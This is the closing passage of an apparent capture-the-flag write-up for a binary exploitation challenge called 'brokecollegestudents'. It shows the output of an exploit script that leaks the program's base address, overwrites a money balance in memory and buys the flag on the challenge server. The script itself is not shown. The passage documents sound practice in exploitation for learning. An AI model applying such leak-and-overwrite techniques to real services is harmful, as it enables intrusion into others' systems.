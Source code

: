And this time it was muich smoother:

```shell
$ python exp.py
[*] 'brokecollegestudents'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.184.186 on port 5001: Done
[*] leaked base address: 559a913a3000
[*] money location: 559a913a701c
[+] Money balance now: 268439456
[*] Now go on a shopping spree!!
[*] Switching to interactive mode
===========================
1) Scholarship Application Portal
2) Collegeboard Website
3) Quit
===========================
Choice: $ 2
Welcome to the Collegeboard website!
You have 268439456 money.
1) Send a SINGLE AP Test Score ($1000000)
2) Buy FLAG ($9999999)
$ 2
BUY ITEM (0 to cancel): kqctf{did_you_resort_to_selling_NFTs_for_college_money_????}
```

That was fun! Three pwns is more than I normally get in a CTF and each was more fun than the last.
